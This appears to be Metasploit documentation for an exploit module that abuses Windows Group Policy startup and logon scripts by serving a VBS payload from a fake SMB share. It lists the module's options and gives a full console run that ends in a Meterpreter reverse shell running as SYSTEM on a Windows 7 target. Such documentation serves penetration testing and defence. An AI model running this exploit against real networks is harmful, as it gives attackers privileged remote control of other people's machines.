 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations. This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges, while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB share to exploit it successfully. Please note in some cases, it will take 5 to 10 minutes to receive a session.

## Verification Steps

2. Start msfconsole
3. Do: `use modules/exploits/windows/smb/group_policy_startup`
4. Do: `exploit`

## Options

```
set FILE_NAME [string]
```
VBS File name to share (Default: random .vbs)

```
set FOLDER_NAME [string]
```
Folder name to share (Default: none)

```
set SHARE [string]
```
Share (Default: Random)

```
set SRVHOST [integer]
```
The local host to listen on. This must be an address on the local machine or 0.0.0.0

```
set SRVPORT [integer]
```
The local port to listen on.

## Scenarios

A run on Windows 7 (x64, Build 7601, SP1) and Server 2016 (x64, Version 1607, OS Build 14393.970) using Group Policy applied from the Domain Controller.

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
